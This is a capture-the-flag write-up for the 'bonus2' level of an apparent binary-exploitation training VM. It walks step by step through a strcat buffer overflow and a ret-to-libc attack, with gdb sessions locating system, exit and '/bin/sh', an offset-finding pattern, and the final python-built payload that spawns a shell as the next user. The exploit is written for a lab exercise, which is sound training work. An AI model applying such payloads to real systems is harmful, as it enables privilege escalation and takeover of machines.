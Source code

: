 ## Flag Bonus2 README: Finding Flag Bonus2

After connection on our vm with:
```bash
ssh bonus2@localhost -p 4343
```

We found a binary named bonus2. When we run it we obtain:
```sh
bonus2@RainFall:~$ ./bonus2 
Segmentation fault (core dumped)
bonus2@RainFall:~$
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), there is `main` and `greetuser`.
greatuser doest somthing easy, it just write specyfic message regarding the value of language into dest and add the first arg into the string then it writes it on STDOUT with puts.
Main is just for seeking the langage of the user.

So, our plan is to use `strcat` for a `buffer overflow` to do a `ret to libc`

Okay, as always, we have our receipe, now let's cook.

First let's try to find adresses of `system`, `exit` and `/bin/sh`.

```sh
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$4 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

Sum up:
- `system`: `0xb7e6b060`
- `exit`: `0xb7e5ebe0`
- `/bin/sh`: `0xb7f8cc58`

Okay we have our adresses. Next is to change the language cause when we find our payload, our lang was in fi.

```sh
export LANG=fi
```

After this, we need to find in witch address we need to overwrite.

So we try our best string

```sh
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaA00aA01aA02aA03aA04aA05aA06aA07

Program received signal SIGSEGV, Segmentation fault.
0x41613430 in ?? ()
```

Okay so our adress value is: `0x41613430` which is `Aa40` but we are in little indien so the true value is: `04aA`

So we need to create a value of `18 bytes` plus our payload.

Okay let's make it !

`PAYLOAD = ./exec + argument1 + $(python -c 'print((random char * 18) +  + (address of system) + (address of exit) + (address of /bin/sh)')`

so the command to send is:

```sh
bonus2@RainFall:~$ ./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA $(python -c 'print("\x90"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������`�����X���
$ whoami
bonus3
```

